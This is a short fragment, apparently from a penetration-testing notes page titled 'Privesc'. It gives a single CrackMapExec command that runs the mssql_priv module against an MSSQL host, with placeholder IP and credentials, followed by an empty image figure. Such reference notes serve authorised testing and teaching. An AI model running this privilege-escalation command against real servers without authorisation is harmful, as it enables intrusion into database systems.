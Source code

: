 # Privesc

```
cme mssql <ip> -u user -p password -M mssql_priv
```

<figure><img src="../../../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

